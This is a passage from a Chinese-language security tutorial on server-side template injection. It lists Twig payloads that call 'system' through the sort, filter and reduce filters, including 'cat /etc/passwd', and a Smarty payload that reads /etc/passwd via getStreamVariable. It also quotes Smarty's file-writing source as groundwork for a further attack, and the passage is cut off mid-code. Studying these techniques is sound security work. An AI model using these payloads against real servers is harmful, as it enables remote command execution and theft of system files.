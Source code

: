 ```
{{["id",0]|sort("system")|join(",")}}

{{["id"]|filter("system")|join(",")}}

{{[0,0]|reduce("system","id")|join(",")}}

{{['cat /etc/passwd']|filter('system')}}
```



具体payload分析详见：《[TWIG 全版本通用 SSTI payloads](https://xz.aliyun.com/t/7518#toc-5)》

　　　　　　　　　　 《[SSTI-服务器端模板注入](https://my.oschina.net/u/4588149/blog/4408349)》

## Smarty

Smarty是最流行的PHP模板语言之一，为不受信任的模板执行提供了安全模式。这会强制执行在 php 安全函数白名单中的函数，因此我们在模板中无法直接调用 php 中直接执行命令的函数(相当于存在了一个disable_function)

但是，实际上对语言的限制并不能影响我们执行命令，因为我们首先考虑的应该是模板本身，恰好 Smarty 很照顾我们，在阅读[模板的文档](https://github.com/smarty-php/smarty)以后我们发现：$smarty内置变量可用于访问各种环境变量，比如我们使用 self 得到 smarty 这个类以后我们就去找 smarty 给我们的的方法

smarty/libs/sysplugins/smarty_internal_data.php　　——>　　getStreamVariable() 这个方法可以获取传入变量的流

![img](https://img2020.cnblogs.com/blog/1344396/202009/1344396-20200910234359019-777787778.png)

因此我们可以用这个方法读文件，payload:

```
{self::getStreamVariable("file:///etc/passwd")}
```

同样

smarty/libs/sysplugins/smarty_internal_write_file.php　　——>　　Smarty_Internal_Write_File 这个类中有一个writeFile方法



```
class Smarty_Internal_Write_File
{
    /**
     * Writes file in a safe way to disk
     *
     * @param  string $_filepath complete filepath
     * @param  string $_contents file content
     * @param  Smarty $smarty    smarty instance
     *
     * @throws SmartyException
     * @return boolean true
     */
    public function writeFile($_filepath, $_contents, Smarty $smarty)
    {
        $_error_reporting = error_reporting();
        error_reporting($_error_reporting & ~E_NOTICE & ~E_WARNING);
        if ($smarty->_file_perms !== null) {
            $old_umask = umask(0);
        }

        $_dirpath = dirname($_filepath);
        // if subdirs, create dir structure
        if ($_dirpath !== '.' && !file_exists($_dirpath)) {
            mkdir($_dirpath, $smarty->_dir_perms === null ? 0777 : $smarty->_dir_perms, true);
        }

        // write to tmp file, then move to overt file lock race condition
        $_tmp_file = $_dirpath . DS . str_replace(array('.', ','), '_', uniqid('wrt', true));
```